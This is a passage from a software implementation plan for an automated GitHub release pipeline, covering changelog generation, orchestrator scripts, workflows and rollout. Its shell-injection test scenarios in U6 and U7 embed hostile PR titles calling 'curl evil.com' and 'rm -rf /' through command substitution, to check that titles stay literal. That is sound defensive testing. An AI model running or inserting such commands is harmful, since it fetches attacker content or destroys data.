    - Each bullet: `- #<number> — <sanitized title> (@<author>)`. Titles sanitised via `sanitizeTitle` from U2 (closing keywords already neutralised).
  - `injectChangelogEntry`:
    - Locates the `## [Unreleased]` heading.
    - Inserts a blank line, then the new entry, between `## [Unreleased]` and the next `##` heading (or EOF).
    - Throws if `## [Unreleased]` is missing — caller (orchestrator) decides whether to fail loudly or initialise.
- **Execution note:** Test-first. The Keep a Changelog 1.1.0 format has subtle conventions worth pinning in tests.
- **Patterns to follow:** Pure exports per `validate.mjs`. Reuses U2 helpers.
- **Test scenarios:**
  - `renderChangelogEntry` — empty PRs returns just the version heading (no sections). One Features PR returns heading + Features section. All four categories present in correct order. Empty categories skipped. Title sanitisation: `"feat: do thing"` appears unchanged in bullet (already-neutralised input is idempotent). Date format: passed-in `Date` rendered as `YYYY-MM-DD` UTC.
  - `injectChangelogEntry` — Inserts new entry between `## [Unreleased]` and `## [2026.5.23.1]`. Inserts at EOF when no prior versions exist. Throws on missing `## [Unreleased]`. Preserves all content above and below the insertion point byte-for-byte. Doesn't touch the `## [Unreleased]` heading itself (the heading stays; the new entry appears below it).
  - Integration: rendered entry + `CHANGELOG.md` fixture round-trip produces valid Keep a Changelog output (basic structural assertion — exact byte-match against a fixture file).
- **Verification:** All test scenarios pass. `CHANGELOG.md` remains parseable as Keep a Changelog 1.1.0 after injection.

### U6. `scripts/autoReleasePrRun.mjs` (orchestrator for workflow 1)

- **Goal:** Compose the U2 + U3 helpers + `gh` CLI calls into a single orchestrated function the workflow can invoke. Make every external dep injectable so unit tests can stub them.
- **Requirements:** R1, R2, R3, R4, R5, R6, R7.
- **Dependencies:** U2, U3.
- **Files:**
  - `scripts/autoReleasePrRun.mjs` (new)
  - `scripts/autoReleasePrRun.test.mjs` (new)
- **Approach:**
  - Export: `async function autoReleasePrRun({ gh, exec, now, repo, headSha })` — returns `{ skipped: false, action: 'created'|'updated', prNumber }` or `{ skipped: true, reason: 'no-op' }`.
  - Pseudocode steps (this is design, not implementation):
    1. `exec("git rev-list --count main..staging")` — if `0`, return `{ skipped: true, reason: 'no-op' }`.
    2. Resolve `since`: `exec("git tag --list 'release-*'")` → parse with U4's `parseVersion` and pick the numerically-newest tag (NOT lexical sort) → `exec("git log -1 --format=%aI <tag>")` for its commit date as the SINCE timestamp. If no tags, fall back to a hardcoded ISO date set to this feature's PR merge date (not an arbitrary repo-creation-era date — see Deferred / Open Questions for the exact value to pick at implementation time).
    3. `gh("pr", "list", "--base", "staging", "--state", "merged", "--limit", "200", "--json", "number,title,labels,mergedAt,body,closingIssuesReferences,author")` → filter to `mergedAt >= since`. The `--limit 200` exceeds expected release-window PR counts; the SINCE filter is client-side so the limit must be higher than the window count.
    4. Categorise via U2; aggregate Closes via U2.
    5. Render managed block via U3.
    6. Look up existing release PR: `gh("pr", "list", "--base", "main", "--head", "staging", "--state", "open", "--json", "number,body,title")`.
    7. If found: `injectIntoBody(existingBody, freshBlock)` via U3 → `gh("pr", "edit", number, "--body", newBody)`. Return `{ skipped: false, action: 'updated', prNumber }`.
    8. If not found: build initial body (the managed block alone is fine; humans can add prose around it later) → `gh("pr", "create", "--base", "main", "--head", "staging", "--title", "Release: staging to main (<today YYYY-MM-DD>)", "--body", body)`. Return `{ skipped: false, action: 'created', prNumber }`.
  - Wrap `gh` and `exec` calls in injectable function signatures so tests can stub. `repo` and `headSha` come from the workflow's `${{ github.repository }}` and `${{ github.sha }}` and exist as inputs for future flexibility.
- **Execution note:** Test-first with stubbed `gh` and `exec`. No live GitHub calls. The orchestrator is the unit, the helpers are tested separately in U2/U3.
- **Patterns to follow:** ESM `.mjs`. Pure helper composition. CLI guard at the bottom that calls `autoReleasePrRun` with real `gh`/`exec` shims; the actual `gh` and `git` invocations happen via `node:child_process` `execFile`.
- **Test scenarios:**
  - **No-op path:** `exec` stub reports `0` ahead → returns `{ skipped: true }`. No further `gh`/`exec` calls made. Asserts via the stub's call recorder.
  - **Create path:** `exec` reports `3` ahead, no existing release PR, two merged PRs. Returns `{ action: 'created', prNumber: <stub-supplied> }`. Verifies `gh pr create` was called with title matching `/^Release: staging to main \(\d{4}-\d{2}-\d{2}\)$/` and body containing the managed block delimiters.
  - **Update path:** Existing release PR with well-formed body. Returns `{ action: 'updated' }`. Verifies `gh pr edit` called with body whose managed block reflects the new PR list.
  - **Malformed-body update path:** Existing release PR whose body has lost the END delimiter and contains a stray `Closes #99`. Verifies the resulting body has the stray `Closes #99` neutralised AND a single well-formed managed block at the end.
  - **No-tags fallback:** `exec("git tag …")` returns empty → uses hardcoded ISO fallback. Verifies the `gh pr list --json …` query filtered by the fallback date.
  - **Closes union:** PR A has `closingIssuesReferences: [{number: 5}]` and body `Fixes #6`. PR B has body `Resolves #5`. Asserts the rendered managed block's `## Closes` line is `Closes #5, Closes #6` (dedup + sort).
  - **Label-vs-prefix precedence:** PR with title `"fix: oops"` AND label `area:recipe` lands in **Recipes**, not **Fixes**.
  - **Shell-injection guard:** PR with title `"feat: $(curl evil.com) cool"` is rendered into the bullet as `feat: $(curl evil.com) cool` (literal). The `gh` stub's `execFile` argv array contains the title as one opaque element; no shell ever sees `$(...)` as substitution. Asserted by inspecting the recorded argv on the stub.
  - **Numeric tag selection:** `git tag --list` returns `["release-2026.5.23.9", "release-2026.5.23.10"]` → `since` resolves from the commit-date of `release-2026.5.23.10`, NOT `release-2026.5.23.9` (which would win on lexical sort).
- **Verification:** Tests pass. Real-world smoke is post-merge via `workflow_dispatch`.

### U7. `scripts/releaseChangelogRun.mjs` (orchestrator for workflow 2)

- **Goal:** Compose U2 + U4 + U5 helpers + `gh` CLI + `git` calls into one function that the changelog workflow invokes. Compute version, tag the release, render the entry, inject into `CHANGELOG.md`, open the docs PR (a human merges it).
- **Requirements:** R8, R9, R10.
- **Dependencies:** U2, U4, U5, U1.
- **Files:**
  - `scripts/releaseChangelogRun.mjs` (new)
  - `scripts/releaseChangelogRun.test.mjs` (new)
- **Approach:**
  - Export: `async function releaseChangelogRun({ gh, exec, now, repo, readFile, writeFile, headSha })` — returns `{ version, tag, prNumber }` or `{ skipped: true, reason }` when the ancestry check or idempotency guard fires.
  - Pseudocode (ordered so the tag is the commit point — failures before the tag leave no side effects, failures after the tag leave only a recoverable orphan branch):
    1. **Ancestry guard.** `exec("git log -1 --format=%P HEAD")` → parse parents. If the head commit doesn't have ≥2 parents OR the first parent isn't reachable as `main^` of the previous release, return `{ skipped: true, reason: 'not-a-merge-commit' }`. (Belt-and-suspenders for the `startsWith` workflow guard — also catches direct-to-main commits whose subject accidentally starts with "Release: staging to main".)
    2. **Compute version.** `exec("git tag --list 'release-*'")` → `computeVersionFromTags(tags, now())` (numeric sort, per U4).
    3. **Idempotent early-exit.** If `release-<version>` already exists in the tag list, return `{ skipped: true, reason: 'tag-exists' }` — a previous run already tagged this version. No side effects.
    4. **Tag and push the release commit FIRST.** `exec("git tag release-<version> <headSha>")` then `exec("git push origin release-<version>")`. After this point, the version is committed to history; subsequent steps are recoverable via orphan-branch cleanup but the tag is the source of truth.
    5. Find previous tag (numerically-newest existing tag from step 2, or null on first run).
    6. Fetch PRs since previous tag: `gh("pr", "list", "--base", "staging", "--state", "merged", "--limit", "200", "--json", "number,title,labels,mergedAt,body,closingIssuesReferences,author")` → filter by previous tag's commit date (or hardcoded ISO fallback on first run).
    7. Read `CHANGELOG.md` via `readFile`. Render entry via U5. Inject into `CHANGELOG.md` body. Write back via `writeFile`.
    8. Write `VERSION.json`: `writeFile("VERSION.json", JSON.stringify({version}, null, 2) + "\n")`.
    9. Create branch `docs-changelog-<version>` from current HEAD: `exec("git checkout -b docs-changelog-<version>")`, commit the `CHANGELOG.md` + `VERSION.json` updates as one commit, push with `-u origin docs-changelog-<version>`.
    10. Open PR back to `staging`: `gh("pr", "create", "--base", "staging", "--head", "docs-changelog-<version>", "--title", "docs: update CHANGELOG for release <version>", "--body", <description with version + Closes-suppressed PR list>)`. The workflow exits after the PR is opened — a human reviews and merges.
  - The PR body must NOT contain `Closes #N` keywords — the issues are already closed by the release PR's merge to `main`. Use `neutralizeClosingKeywords` on any interpolated text.
  - Git config: workflow sets `git config user.name "github-actions[bot]"` and `git config user.email "41898282+github-actions[bot]@users.noreply.github.com"` in the workflow YAML (see U9 step 3); orchestrator assumes these are set.
  - All subprocess invocations follow the Key Technical Decision on `execFile` — argv arrays only, never shell strings.
- **Execution note:** Test-first with stubbed `gh`, `exec`, `readFile`, `writeFile`. The order of operations (tag BEFORE opening the docs PR vs after) matters — pin in tests.
- **Patterns to follow:** Same shape as U6 — pure helper composition + injected dependencies. Real I/O lives only behind the injected stubs.
- **Test scenarios:**
  - **First-release path:** no existing tags → ancestry guard passes (merge commit with two parents) → `computeVersionFromTags` returns `2026.5.23.1` → idempotency check passes (tag doesn't exist) → tag pushed → no previous tag → `gh pr list` runs with hardcoded ISO fallback → entry rendered → CHANGELOG injected → VERSION.json written → branch created + committed + pushed → docs PR opened. Verifies the tag-first sequence via stub recorder.
  - **Subsequent release path:** existing tag `release-2026.5.23.1` → next version is `2026.5.23.2` → tag pushed FIRST → `gh pr list` filtered to date of previous tag's commit.
  - **Same-day counter:** `now` returns same day as the most recent tag → counter increments. Combined with numeric-sort assertion: `["release-2026.5.23.9"]` + same day → version `2026.5.23.10` (NOT `2026.5.23.2`).
  - **Idempotent early-exit:** running twice with the same inputs — first run tags + creates docs PR. Second run sees `release-<version>` already exists → returns `{ skipped: true, reason: 'tag-exists' }`. No CHANGELOG modification, no VERSION.json write, no branch creation, no second docs PR. Verified by inspecting stub call list — `writeFile`, `gh pr create`, and `git checkout -b` are NOT invoked on the second run.
  - **Ancestry-guard rejects direct-to-main commit:** `git log -1 --format=%P HEAD` returns a single parent (no merge commit) → returns `{ skipped: true, reason: 'not-a-merge-commit' }`. No tag pushed.
  - **CHANGELOG injection failure (after tag):** `## [Unreleased]` missing from `CHANGELOG.md` → throws AFTER the tag has been pushed. The tag remains as the source of truth; the next run sees the tag and exits early. Recovery: delete the tag manually OR fix `CHANGELOG.md` and re-dispatch (workflow_dispatch).
  - **Closing-keyword sanitisation in PR body:** stubbed PR with title `"feat: Closes #99 inline"` → docs PR body contains backtick-wrapped `` `Closes #99` ``, not raw `Closes #99`.
  - **VERSION.json write:** stub captures the written content; verifies `{version: "<computed>"}` shape with trailing newline.
  - **No auto-merge call:** verifies `gh pr merge` is NOT invoked — the orchestrator exits cleanly after `gh pr create` and leaves the docs PR open for a human to merge.
  - **Shell-injection guard:** stubbed PR with title `"feat: $(rm -rf /) cool"` lands in the docs PR body and CHANGELOG entry as literal text. Stub's `execFile` argv contains the title as one opaque element; no shell context exists. Asserted by inspecting the recorded argv arrays.
- **Verification:** Tests pass. Workflow smoke-tested after first release reaches `main`.

### U8. `.github/workflows/auto-release-pr.yml`

- **Goal:** Run `autoReleasePrRun.mjs` on every push to `staging` and on manual dispatch.
- **Requirements:** R1, R2.
- **Dependencies:** U6 (and transitively U2, U3).
- **Files:**
  - `.github/workflows/auto-release-pr.yml` (new)
- **Approach:**
  - Triggers: `on: { push: { branches: [staging] }, workflow_dispatch: {} }`.
  - Permissions: `{ contents: read, pull-requests: write }`.
  - Concurrency: `{ group: auto-release-pr, cancel-in-progress: false }` (serialise; never cancel a half-finished body update).
  - Steps:
    1. Checkout (`fetch-depth: 0` so `git tag` and `git rev-list` see history).
    2. Setup Node 22 with npm cache.
    3. `npm ci`.
    4. Run `node scripts/autoReleasePrRun.mjs` with `GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}` and `GITHUB_REPOSITORY` exported.
  - Mirrors `test.yml` shape (Node version, checkout action versions, cache config) for consistency.
- **Execution note:** No new code in the workflow beyond the YAML — behaviour is delegated to U6. Skip TDD discipline (config wiring).
- **Patterns to follow:** `.github/workflows/test.yml` for action versions, Node setup, permissions style. `.github/workflows/deploy.yml` for the artifact-permission pattern (informational only — not used here).
- **Test scenarios:** Test expectation: none — workflow YAML is config. Behaviour is covered by U6 unit tests. Real-world verification via post-merge `workflow_dispatch`.
- **Verification:**
  - Post-merge: trigger via `gh workflow run auto-release-pr.yml --ref staging`. Observe Actions tab for a green run.
  - First run after merge should be a no-op (just-merged release PR means `main` caught up — `ahead_by == 0`).
  - Push a follow-up commit to `staging` (e.g., a recipe PR merge) and confirm a release PR opens with the expected categorised body.

### U9. `.github/workflows/release-changelog.yml`

- **Goal:** Run `releaseChangelogRun.mjs` when the release PR merges to `main`.
- **Requirements:** R8, R9, R10.
- **Dependencies:** U7 (and transitively U1, U2, U4, U5).
- **Files:**
  - `.github/workflows/release-changelog.yml` (new)
- **Approach:**
  - Triggers: `on: { push: { branches: [main] }, workflow_dispatch: {} }`.
  - `jobs.changelog.if: startsWith(github.event.head_commit.message, 'Release: staging to main')` — prefix guard on the bot-set release PR title. Stable across merge methods (the release PR's squash/merge subject begins with this prefix by construction).
  - Permissions: `{ contents: write, pull-requests: write }`.
  - Concurrency: `{ group: release-changelog, cancel-in-progress: false }`.
  - Steps:
    1. Checkout (`fetch-depth: 0`, `token: ${{ secrets.GITHUB_TOKEN }}`). `actions/checkout@v4` configures `extraheader` so subsequent `git push` calls use the token without additional credential setup.
    2. Setup Node 22, `npm ci`.
    3. Configure git: `git config user.name 'github-actions[bot]'` and `git config user.email '41898282+github-actions[bot]@users.noreply.github.com'` (canonical bot identity — pushes attributed to the GitHub Actions bot in the UI).
    4. Run `node scripts/releaseChangelogRun.mjs` with `GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}`.
  - `workflow_dispatch` is wired for manual recovery if the heuristic missed a release.
- **Execution note:** Config wiring; no TDD.
- **Patterns to follow:** Same as U8 (`test.yml` style).
- **Test scenarios:** Test expectation: none — workflow YAML is config. Behaviour covered by U7 unit tests.
- **Verification:**
  - First real release merge: observe a `release-<version>` tag pushed, `CHANGELOG.md` updated on `staging` via the auto-merged docs PR, and `VERSION.json` updated.
  - If the heuristic misses (rare), `gh workflow run release-changelog.yml --ref main` recovers manually.

### U10. Documentation (`CLAUDE.md` + `docs/release-pipeline.md`)

- **Goal:** Document the bot-maintained release PR body contract and the post-merge bootstrap.
- **Requirements:** R13, R14.
- **Dependencies:** U1–U9.
- **Files:**
  - `CLAUDE.md` (modify — Release PRs section)
  - `docs/release-pipeline.md` (new)
- **Approach:**
  - `CLAUDE.md` Release PRs section gains a paragraph noting that the body is now bot-maintained: the managed block (between `<!-- release-pr:start -->` and `<!-- release-pr:end -->`) is rewritten on every push to `staging`. Human notes go outside the block. The PR title still follows `Release: staging to main (YYYY-MM-DD)`.
  - `docs/release-pipeline.md` covers:
    - Overview of the two workflows and their triggers.
    - Managed-block contract (delimiter format, neutralisation, malformed-delimiter handling).
    - Categorisation rules (mirroring R4).
    - How to manually re-sync via `workflow_dispatch`.
    - **Post-merge bootstrap** (one-time after this PR merges):
      - Create initial tag: `git tag release-2026.5.23.1 main && git push origin release-2026.5.23.1` (or whatever today's CalVer is on merge day).
      - Update `VERSION.json` if merge day differs from the value committed in this PR.
      - Optional: create `area:recipe` and `area:product` labels via `gh label create`.
    - **Per-release ritual:** after the release PR merges to `main`, watch for the docs PR that `release-changelog.yml` opens against `staging`. Review and merge it manually — the next release picks up the new CHANGELOG entry from that merge.
    - Recovery procedures: stale release PR body, malformed delimiters (no manual fix needed — next push self-heals), missed `release-changelog.yml` trigger.
- **Execution note:** None — documentation.
- **Patterns to follow:** Existing `CLAUDE.md` voice. Existing `docs/` layout (no formal structure beyond `docs/plans/`).
- **Test scenarios:** Test expectation: none — documentation.
- **Verification:** Read-through. PR reviewer confirms the contract is unambiguous and the bootstrap steps are complete.

---

## Dependencies / Prerequisites

- **Vitest framework (issue #3)** — landed in commit `1b675bf`. Test runner is in place, `scripts/*.test.mjs` is the convention, `vitest.config.ts` already includes `scripts/**/*.test.mjs`. No config changes needed.
- **No new dependencies.** All work uses Node 22 stdlib (`node:child_process`, `node:fs/promises`, `node:path`), the `gh` CLI (pre-installed on GitHub-hosted runners), and existing `vitest`.
- **No new repo secrets.** Deterministic CHANGELOG eliminates the need for `ANTHROPIC_API_KEY`.

---

## Operational / Rollout Notes

This work ships as a single PR per the user's confirmed scope. Order of operations after merge:

1. **PR merges to `staging`.** No workflow fires yet (the workflows have never run).
2. **First post-merge action (manual, one-time):**
   - On `main` (after the release PR merges): `git tag release-<today's CalVer> main && git push origin release-<today's CalVer>`. This anchors the SINCE_DATE for the first auto-release-pr.yml run.
   - If today's CalVer differs from `VERSION.json`'s value (because merge day shifted), update `VERSION.json` on `staging` and commit + push.
3. **First auto-release-pr.yml run:** manually trigger via `gh workflow run auto-release-pr.yml --ref staging`. Confirm a green run and that the resulting PR body looks correct. After this confirmation, every push to `staging` self-maintains the body.
4. **First real release:** when the release PR merges to `main`, `release-changelog.yml` should fire (merge subject contains `staging`). Confirm:
   - `release-<version>` tag pushed on `main`.
   - `VERSION.json` and `CHANGELOG.md` updated on the `docs-changelog-<version>` branch, with a PR opened against `staging`.
   - Review the docs PR and merge it manually.
5. **Recovery procedures** (documented in `docs/release-pipeline.md`):
   - Stale release PR body: `gh workflow run auto-release-pr.yml --ref staging`.
   - Missed changelog trigger: `gh workflow run release-changelog.yml --ref main`.
   - Malformed delimiters in the release PR body: no manual action needed — next push to `staging` self-heals via U3's malformed-delimiter handling.

---

## Deferred / Open Questions

Items deferred from the doc-review pass for the implementer to resolve in context. These are not blockers for starting work — flag for decision when reaching the relevant unit.

- **Hardcoded ISO fallback date in `autoReleasePrRun` (no-tags case).** The plan currently says "an arbitrary repo-creation-era date." Implementer should pick a date that's tight — the PR merge date of THIS feature, so the first run only scans PRs merged from this feature onward. Bootstrap creating the initial `release-*` tag immediately after merge mitigates the practical impact, but the fallback should be set conservatively. Decide at U6 implementation time. (Source: feasibility review.)

- **`release-*` tag protection rule + counter sanity ceiling.** A contributor with push access could push `release-2026.5.23.999` and corrupt the CalVer counter. Two possible mitigations: (a) add a tag-protection rule via repo settings (`gh api -X POST /repos/:owner/:repo/tags/protection`), (b) add a sanity ceiling in `computeVersionFromTags` (e.g., warn + skip if counter > 50 same-day, which is implausible). For a solo project the risk is currently low; decide whether to implement either mitigation at U4 implementation time. (Source: security review.)

- **`contents: write` blast-radius verification for `release-changelog.yml`.** The workflow holds `contents: write` to tag + push the docs branch. Plan does not verify that `main` branch protection blocks the Actions bot from force-pushing or bypassing required reviews. Decide whether to (a) document expected branch-protection state as a hard prerequisite, (b) split the workflow into two jobs (one with `contents: write` for the tag, one with `pull-requests: write` for the PR) to scope per-job. Decide at U9 implementation time. (Source: security review.)

- **Fold U5 (`buildChangelogEntry.mjs`) into U3 (`buildReleasePrBody.mjs`)?** Both are pure rendering modules consuming the same categorised-PR data. Trade-off: one fewer module pair (4 instead of 5) vs clearer separation of two injection contracts (managed-block delimiters in U3 vs `## [Unreleased]` anchor in U5). Implementer can fold during TDD if the injection contracts read as one concern; if they diverge, keep separate. (Source: scope-guardian review.)

---

## Future Considerations

These are noted but explicitly NOT part of this plan:

- **Auto-merge the CHANGELOG-back PR.** The current design opens the docs PR and stops; a human merges. If the manual-merge step becomes the bottleneck (e.g., releases stack up because the docs PR hasn't been merged yet), revisit auto-merge. Would require enabling `allow_auto_merge` on the repo, accepting the default-token recursion limitation (no automatic `auto-release-pr.yml` retrigger on the auto-merged docs push — but `workflow_dispatch` recovers), and adding `gh pr merge --auto --squash` back to U7 step 9.
- **Auto-labeler workflow.** Wire `pull_request` labeler so `area:recipe` and `area:product` get applied automatically by path heuristic. Categorisation already supports both label and prefix paths; this just shifts which one is dominant.
- **Drift-check job.** Add a job to `test.yml` that runs `autoReleasePrRun.mjs` in dry-run mode against the current release PR body and fails if the managed block would change. Catches manual edits inside the block before they cause confusion.
- **Multi-repo release-PR fan-out.** Not applicable to this single-repo project, but the helper shape (injectable `gh`, `exec`, `repo`) would generalise.

---

## Deferred Implementation Notes

Resolved during implementation, not pre-decided in the plan:

- Exact regex for `extractClosesFromBody` line-anchoring (whether to allow leading whitespace, whether to allow trailing punctuation). Pin in the U2 test scenarios at implementation time.
- Exact prose of the management-notice line inside the managed block (`<!-- managed by … -->`). Cosmetic.
- Whether `releaseChangelogRun` should commit `CHANGELOG.md` + `VERSION.json` as one commit or two on the docs branch. Probably one; confirm at U7 implementation time.
- Exact hardcoded ISO fallback date in `autoReleasePrRun` (for the no-tags case). Today's date or repo-creation date are both reasonable; pick at implementation time.
- Whether `parseVersion` should accept `release-` prefix optionally (current spec says yes) or require callers to strip it. Pin in U4 tests.
